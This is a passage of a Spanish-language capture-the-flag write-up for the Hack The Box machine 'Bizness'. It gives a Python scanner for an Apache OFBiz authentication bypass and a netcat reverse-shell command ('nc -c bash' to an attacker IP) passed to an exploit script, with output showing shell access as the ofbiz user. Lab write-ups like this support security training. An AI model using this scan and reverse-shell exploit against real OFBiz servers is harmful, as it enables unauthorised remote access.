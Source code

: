 ```shell
def scan(url):
    """
    Perform a basic scan on the specified URL.
    """
    print("[+] Scanning started...")
    try:
        target_url = f"{url}/webtools/control/ping?USERNAME=&PASSWORD=&requirePasswordChange=Y"
        response = requests.get(target_url, verify=False)

        response.raise_for_status()  # Raise an HTTPError for bad responses (4xx or 5xx)

        if "PONG" in response.text:
            print("[+] Apache OFBiz instance seems to be vulnerable.")
        else:
            print("[-] Apache OFBiz instance seems NOT to be vulnerable.")

    except requests.exceptions.RequestException as e:
        print(f"[-] LOG: An error occurred during the scan: {e}")
```

Lanzo el escaneo y me dice que es vulnerable.

```shell
python3 exploit.py --url https://bizness.htb                                                                                            
[+] Scanning started...
[+] Apache OFBiz instance seems to be vulnerable.
```

Por curiosidad, realizo la prueba a mano y compruebo como me devuelve "PONG".

![Bizness 3](/assets/images/2024-05-21-Bizness/bizness_3.png)

## Explotación de vulnerabilidades

El exploit es capaz de ejecutar comandos, por lo que me pongo en escucha por netcat y lanzo el script.

```shell
python3 exploit.py --url https://bizness.htb --cmd 'nc -c bash 10.10.14.174 4321'
```

Consigo acceso a la máquina Bizness como el usuario ofbiz.

```shell
nc -lvnp 4321                                                
listening on [any] 4321 ...
connect to [10.10.14.174] from (UNKNOWN) [10.10.11.252] 37068
whoami
ofbiz
```
